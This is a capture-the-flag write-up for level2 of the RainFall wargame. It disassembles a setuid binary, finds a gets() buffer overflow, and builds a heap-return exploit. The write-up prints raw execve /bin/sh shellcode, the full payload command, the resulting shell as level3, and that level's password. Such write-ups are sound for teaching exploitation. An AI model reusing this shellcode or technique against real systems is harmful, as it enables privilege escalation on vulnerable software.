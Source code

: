 # Level 2

- We login as user level2:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level2/level2
```

```
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2

level2@RainFall:~$ gdb level2
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
```

```
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```


- Let's identify the calls and jump:
```
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
```
>`0x8049860 <stdout@@GLIBC_2.0>: 0xb7fd1a20`

>Call `<fflush@plt>`.


```
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
```
>buffer starts at `-0x4c(%ebp)`

>Prompt the user without imposing any input size limit.


```
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
```
>`0x4(%ebp) --> 0xbffff70c`

>`0xbffff70c: 0x0804854a`

>`saved eip 0x804854a`

>After receiving the input, if the return address of the function starts with `0xb`, we will call `<printf@plt>` and then `<_exit@plt>`. Otherwise, we jump to `<puts@plt>`.


```
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
```
>`0x8048620: "(%p)\n"`

>`-0xc(%ebp) --> 0xbffff70c`

>`0xbffff70c: 0x0804854a`

>`saved eip 0x804854a`

>Print the function return address.


```
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
```
>Call `exit(1)`


```
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
```
>buffer starts at `-0x4c(%ebp)`

>Print the buffer


```
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
```
>buffer starts at `-0x4c(%ebp)`

>Copy the buffer into the heap.


- To redirect the program's execution flow, the function must `return`, so we must avoid `<_exit@plt>`.


- We are looking to replace the return address of the function with an address that contains our shellcode. However, we cannot store our shellcode in the environment or in the stack of the `p()` function because these addresses all start with `0xb`.
```
(gdb) info reg
...
esp            0xbffff6a0       0xbffff6a0
ebp            0xbffff708       0xbffff708
...
```

```
(gdb) x/3s *(char**)environ
0xbffff8f5:      "SHELLCODE=1\322Rh//shh/bin\211\343\061\300\260\v̀"
0xbffff915:      "TERM=xterm-256color"
0xbffff929:      "SHELL=/bin/bash"
```


- `0xc0000000` to `0xffffffff` is reserved for the kernel, attempting to access it would result in a segmentation fault.


- So, we need a way to write our shellcode into much lower addresses, such as in the heap at the memory address returned by `<strdup@plt>`.
```
(gdb) b*0x0804853d
Breakpoint 1 at 0x804853d
```

```
(gdb) r < <(echo 123)
...
Breakpoint 1, 0x08048538 in p ()

(gdb) x/s $eax
0x804a008:      "123"
```


- The input should thus be in the form of `(NOP's) + SHELLCODE + (FILLER) + \x08\xa0\x04\x08`. The question now is how many characters are needed for the return address of the `p()` function to start being overwritten. It can be done quickly using a tool like [Metasploit](https://en.wikipedia.org/wiki/Metasploit).


- The return address is found to be replaced after the 80th character. We would be tempted to do this:
```
(gdb) r < <(python -c "print '\x90'*53 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + '\x08\xa0\x04\x08'"; cat)
```


- However, we would have an issue because of this:
```
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
```


- Indeed, this part of the code copies the return address value from the function a little further down in the stack. This would have the effect of overwriting a portion of our shellcode. Therefore, we must leave a small space, precisely 16 bytes:
```
level2@RainFall:~$ (python -c "print '\x90'*37 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*16 + '\x08\xa0\x04\x08'"; cat) | ./level2
...
whoami
level3

cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```